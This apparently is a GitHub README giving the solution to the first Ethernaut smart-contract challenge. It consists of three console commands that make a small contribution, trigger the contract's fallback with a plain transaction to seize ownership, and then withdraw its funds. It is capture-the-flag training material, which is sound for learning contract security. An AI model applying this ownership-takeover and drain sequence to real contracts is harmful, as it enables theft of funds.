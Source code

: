 # ethernaut-challenges

### challenge 1
await contract.contribute({value: toWei("0.000001")})
await contract.sendTransaction({value: toWei("0.000001")})
await contract.withdraw()
